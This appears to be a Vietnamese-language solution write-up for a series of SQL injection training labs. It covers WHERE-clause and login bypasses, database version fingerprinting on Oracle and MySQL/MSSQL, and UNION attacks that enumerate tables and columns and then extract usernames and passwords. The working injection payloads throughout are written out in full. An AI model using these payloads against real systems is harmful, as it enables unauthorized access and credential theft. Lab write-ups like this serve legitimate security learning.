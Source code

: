 ### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![Alt text](image.png)

Đây là giao diện chính, mình click vô xem detail 1 sản phẩm thì thấy có xuất hiện productID ở URL 

![Alt text](image-1.png)

Ta thấy filter category=Gift -> khả năng câu lệnh SQL được thực hiện như sau

```
SELECT * from <table_name> where category = 'input' AND released = 1
```

Ta sẽ sửa phần path như sau để xem được các sản phẩm chưa được release

filter?category=Gifts' or 1 = 1--

thì câu SQL trên là: 

```sql
SELECT * from <table_name> where category = 'Gift' or 1 = 1--' AND released = 1
```

-> Câu SQL trên luôn trả về là True, ta sẽ thấy all sản phẩm (kể cả các sản phẩm chưa được release).

![Alt text](image-2.png)

### Lab: SQL injection vulnerability allowing login bypass

![](image-3.png)

Ta nhập username: admin' or 1 = 1--, password giá trị nào cũng được

Khả năng câu SQL được thực thi như sau:

```sql
SELECT * FROM users WHERE username = 'admin' or 1 = 1-- and password = 'pwd'
```

Câu SQL trên đúng và ta vào được admin

![Alt text](image-4.png)

![Alt text](image-5.png)

### Lab: SQL injection attack, querying the database type and version on Oracle

Tương tự ta cũng thấy filter category, xác định số cột của category:

![Alt text](image-6.png)

thử order by 3-- -> Lỗi 500 Internal Server Error -> 2 cột

![Alt text](image-7.png)

Khả năng cao 2 cột này có kiểu là text.

Thử union select "duong", "hao" from dual-- xem dự đoán có chuẩn không? (dual là 1 table được Oracle cung cấp, được dùng để test) -> nếu union thành công -> dự đoán chuẩn

![Alt text](image-8.png)

Lướt xuống dưới thì có duong hao

![](image-9.png)

Cách kiểm tra version của các hệ quản trị CSDL

![Alt text](image-10.png)

```
filter?category=Accessories' union select banner, null from v$version--
```

Kết quả:

![Alt text](image-11.png)

### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Tương tự, ta cũng xác định được 2 cột có kiểu là text

![Alt text](image-12.png)

![Alt text](image-13.png)

Với MySQL và Microsoft dùng select @@ version -> mình sẽ filter như sau

```
filter?category=Gifts' union select @@version, null#
```

Kết quả:

![Alt text](image-14.png)

### Lab: SQL injection attack, listing the database contents on non-Oracle databases

Tương tự, ta xác định được category có 2 column kiểu text.

Ta xác định danh sách các table có trong database:

```
filter?category=Pets' union select table_name, null from information_schema.tables--
```

Ta thu được 1 list các table như sau:

![Alt text](image-15.png)

trong đó ta đoán table user_newtua chứa username, password của admin

Tiếp tục xem các column của table user_newtua

![Alt text](image-16.png)

Ta nhận thấy có 2 column khả nghi là username_nwffts và password_rzyisn.

Tiếp tục:

```
category=Pet' union select username_nwffts, password_rzyisn from user_newtua--
```

![Alt text](image-17.png)

và sau đó đăng nhập thành công

![Alt text](image-18.png)

### Lab: SQL injection attack, listing the database contents on Oracle

Tương tự, ta thu được danh sách các table:

```
category=Gift' union select table_name, null from all_tables--
```

![Alt text](image-19.png)

Ta thấy có table này

![](image-20.png)

Tiếp tục xem danh sách column của table

![Alt text](image-21.png)

![](image-22.png)

```
filter?category=Gifts' union select USERNAME_GZVGTI, PASSWORD_ARMTHE from USERS_MXGZUE--
```

Thu được:

![Alt text](image-23.png)

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

Dùng union select null-- đến khi được :v

![Alt text](image-24.png)

### Lab: SQL injection UNION attack, finding a column containing text

![](image-25.png)

![Alt text](image-26.png)

Nhận ra category có 3 column có kiểu lần lượt là số, chuỗi, số

![Alt text](image-27.png)

Giờ thì thay tên column là được.

![Alt text](image-30.png)

### Lab: SQL injection UNION attack, retrieving data from other tables

Kiểm tra thì thấy có 2 column (đã thử 3-- và lỗi)

![Alt text](image-31.png)

Vậy 2 column đó đều có kiểu là chuỗi

![Alt text](image-32.png)

Thay bằng username, password và table users

![Alt text](image-34.png)